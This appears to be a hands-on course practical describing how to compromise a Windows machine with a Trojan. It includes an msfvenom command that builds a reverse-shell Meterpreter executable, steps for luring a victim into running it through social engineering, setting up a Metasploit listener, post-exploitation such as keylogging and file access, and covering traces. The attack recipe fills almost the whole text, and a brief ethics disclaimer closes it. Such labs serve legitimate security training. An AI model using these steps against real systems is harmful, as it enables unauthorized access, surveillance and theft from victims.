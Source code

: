 # Practical-09.md

## Malware Threats: Gain Access to the Target System using Trojans

### Step 1: Introduction
In this practical, we will learn how to gain access to the target system using Trojans, which are a type of malware threat.

### Step 2: Understanding Trojans
Trojans are malicious software that disguise themselves as legitimate programs or files. They are designed to trick users into executing them, thereby gaining unauthorized access to the target system.

### Step 3: Setting up the Environment
Before we begin, make sure you have the following:
- Kali Linux machine (attacker machine)
- Windows machine (victim machine)

### Step 4: Creating a Trojan
1. Open a terminal on your Kali Linux machine.
2. Use a tool like `msfvenom` to create a Trojan payload. For example, you can create a Trojan that provides a reverse shell to the attacker.
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f exe > trojan.exe
   ```
   Replace `<attacker_ip>` with the IP address of your Kali Linux machine and `<attacker_port>` with a port number of your choice.

### Step 5: Delivering the Trojan
1. Transfer the generated Trojan (`trojan.exe`) to the victim machine using a method of your choice (e.g., USB drive, email, etc.).
2. Encourage the victim to execute the Trojan on their system. This can be done through social engineering techniques, such as disguising the Trojan as a legitimate file or using persuasive language in an email.

### Step 6: Gaining Access
1. Once the victim executes the Trojan, it establishes a connection back to the attacker's machine.
2. On your Kali Linux machine, launch the Metasploit Framework by typing `msfconsole` in the terminal.
3. Use the `multi/handler` module to listen for incoming connections from the Trojan.
4. Set the required options for the `multi/handler` module, such as the payload and the listening IP and port.
5. Start the listener using the `exploit` command.

### Step 7: Post-Exploitation
1. Once the connection is established, you will have a Meterpreter session.
2. Use the `sessions` command to list all active sessions.
3. Select the session corresponding to the exploited system using the `sessions -i <session_id>` command.
   Replace `<session_id>` with the session ID of the exploited system.
4. Now, you have a Meterpreter shell on the victim machine. You can perform various post-exploitation activities such as:
   - Gathering system information
   - Accessing files and directories
   - Capturing screenshots
   - Keylogging
   - etc.

### Step 8: Cleanup
After completing the post-exploitation activities, it is important to clean up the traces of the attack. Use the following commands:
- `sessions -K` to kill the Meterpreter session.
- `exit` to exit the Metasploit Framework.

### Conclusion
In this practical, we learned how to gain access to the target system using Trojans, which are a type of malware threat. It is important to use these techniques responsibly and only for ethical purposes.

---

That's it for Practical-09. Stay tuned for the next practical!
